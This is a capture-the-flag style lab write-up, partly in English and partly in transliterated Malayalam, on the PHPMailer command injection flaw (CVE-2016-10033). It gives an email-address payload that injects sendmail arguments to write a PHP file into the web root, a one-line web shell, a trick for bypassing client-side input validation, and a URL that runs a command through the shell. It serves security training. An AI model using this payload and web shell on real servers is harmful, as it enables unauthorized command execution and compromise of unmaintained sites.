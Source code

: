 ## Introduction
-->This exercise covers a remote code execution vulnerability in PHPMailer
-->This course details the exploitation of a command injection in the PHPMailer libraries. PHPMailer is used across a wide list of PHP projects. This vulnerability will provide you with a quick way to gain commands execution if the server relies on PHPMailer to send emails.

## The issue
-->The vulnerability is explained in details in the [project's wiki](https://github.com/PHPMailer/PHPMailer/wiki/About-the-CVE-2016-10033-and-CVE-2016-10045-vulnerabilities).

## Exploitation
-->The exploitation of this issue is done in two steps :
-   Create a file with a PHP extension in the web root of the server.
-   Access the newly created file.

-->To create the file, you can inject some extra-arguments to the command as part of the email address:
```perl
"attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php  root"@127.0.0.1
```
-->This will allow us to create the file `/var/www/shell.php`. To get code execution, we also need to inject a web shell in the email's body:
```php
<?php system($_GET['c']);?>
```
-->Finally, you need to access your web shell to execute commands using the `c` parameter.

## Conclusion
-->This exercise demonstrates how you can get command execution if an application uses a vulnerable version of PHPMailer. Based on how popular this library is and how a lot of PHP applications are not well maintained, this issue should allow you to gain command execution on unmaintained PHP applications. I hope you enjoyed learning with PentesterLab.

# Video explanation
-->phpmailer enna library il ulla vulnerability aan ivide padikunath.ee library vech mail chyan aan use chyuka.athayath applications il contact us ennoke kanuna sthalangal ille avide oke
-->so adyam lab open aakuka enit athil contact us page page il form kanum. FROM , SUBJECT , BODY  ingane moon input box undakum
-->ivide FROM enna box il namude email kodukanam.ennal email kodukunathin pakaram :
```perl
"attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php  root"@127.0.0.1
```
ith kodukanam.enit inspect element click chyth type=email ennath mati type=text enn kodukanam.kanarm ith email input box aan.so @ um . symbol oke undneigile accept chyu
-->ini SUBJECT input box il namal php script kodukanam :
```php
<?php system($_GET['c']);?>
```
-->ini BODY box il entheniglum kodukuka enit send adikanam apol  ee script il ullapole "-X/var/www/shell.php"  enna code kandile so athile shell.php enna file upload akkum root directory il.so namauk website inte koode /shell.php ennadikumbol namuk kanan patum php error.so namal athinte koode ?c=uname enn koodi koduthal namuk code execution aakum ok ie,
->http://ptl-15150464-2a72a194.libcurl.so/shell.php?c=uanme
-->NOTE : ee lab il ee shell.php upload aakan korach time edukunundayirikunu.but aayi.ini ?c=uname mati namude UUID Koduthal namuk lab complete chyan patum ok